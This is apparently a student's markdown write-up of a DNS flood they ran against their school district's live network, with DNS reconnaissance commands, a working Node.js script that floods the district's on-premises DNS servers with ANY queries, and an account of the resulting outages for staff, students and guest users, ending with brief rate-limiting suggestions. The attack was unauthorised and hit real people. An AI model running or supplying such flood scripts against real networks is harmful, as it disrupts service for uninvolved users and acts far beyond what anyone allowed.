





*some experiment i tried in my school--this issue is now patched!!!*

# Introduction

A DNS flood is a attack that involves sending multiple requests to a DNS server, preventing legitimate clients from querying the server and indirectly, accessing the internet.

# Structure

BCPS uses a Palo Alto filter on the network. But, when you check the DHCP assigned DNS servers, you get something drastically different.

```bash
scutil --dns | grep 'nameserver\[[0-9]*\]'
```

```
  nameserver[0] : 10.149.0.29
  nameserver[1] : 10.9.0.76
```

These are 2 local IP’s, implying a on-prem solution.

Another thing to note is that the network search domain is `bcps.org`, which is the district’s official website. **This is important.**

```bash
scutil --dns | grep 'search domain'
```

```
search domain[0] : bcps.org
```

This domain resolves to a CF public IP using a public DNS resolver such as 8.8.8.8:

```
Server:		8.8.8.8
Address:	8.8.8.8#53

Non-authoritative answer:
Name:	bcps.org
Address: 162.159.135.49
Name:	bcps.org
Address: 162.159.136.49
```

Running it on a BCPS DNS server on the network yields a couple local IPs:



These are all local IPs. Running nmap on these IPs yield a distinct port fingerprint:



These are probably backup DNS servers, or are used across other parts of the district.

# Method

As the DNS server is a local IP, it can be deduced that it is a on-premises server. [`bcps.org`](http://bcps.org) is possibly fetched from this server instead of being forwarded to PA upstream.

The attack was an amplified `ALL` query for [`bcps.org`](http://bcps.org) to the 2 DNS servers.

## Setup

A script was ran 8-9 times concurrently on an Apple Macbook Air (M2) on MacOS 15.4. Running it upwards of 15 times causes the device to get booted off the network, but it could also be the network buckling under stress. Further research is required for this.

```jsx
import dns from "node:dns/promises"
import net from "node:net";

const dnsServers = dns.getServers();
// avoid preference
for (const server of dnsServers) {
  for (let i = 0; i < 1_000; i++) {
    setInterval(async () => {
	    // used to prevent socket exhaustion
      const socket = new net.Socket();
      socket.setTimeout(1000);
      socket.on('error', () => socket.destroy());
      socket.on('timeout', () => socket.destroy());

      socket.connect(53, server, async () => {
        socket.destroy();
        dns.setServers([server]);
        await dns.resolve("bcps.org", "ANY").catch(console.error);
        console.log("attempt ", i);
      });
    });
  }
}
```

# Effects

Nothing was felt immediately. The dns queries were going normal with no logged errors, but soon after, the queries started to slow down and hang, and connections were being refused and timeouted:



A separate BCPS issued Chromebook was used to test DNS resolving, with the cache cleared. Websites were loading slowly, and then suddenly loaded. Wi-Fi was also suddenly dropping off on some devices and they had issues connecting. The attack was later stopped. Soon after, Wi-Fi started dropping out and websites were loading slow. Google Speedtest logged 50/up and 30/down, which is a 50% reduction from the normal 100/100 speed.

The internet started to recover ~5min after the slow network notification. To make sure this was due to the attack, it was started again, and the connection started dropping off. Devices were not receiving IPs, meaning that the IP might have a connection to the DHCP server or router.

Websites were not resolving and many devices had “No internet.”

When the attack was paused later on, staff devices started regaining internet connection in the span of 5min.

At one point, during a later run of ~15 instances, the access point completely disconnected and made it’s own network, and the test device switched to a 169.xx IP.





Users of BCPS-Guest also reported disruptions.

# Possible solutions

The load on the DNS server can be reduced by implementing a simple rate limit per client.

Core network components should also be isolated to prevent a total failure, and reduce load.
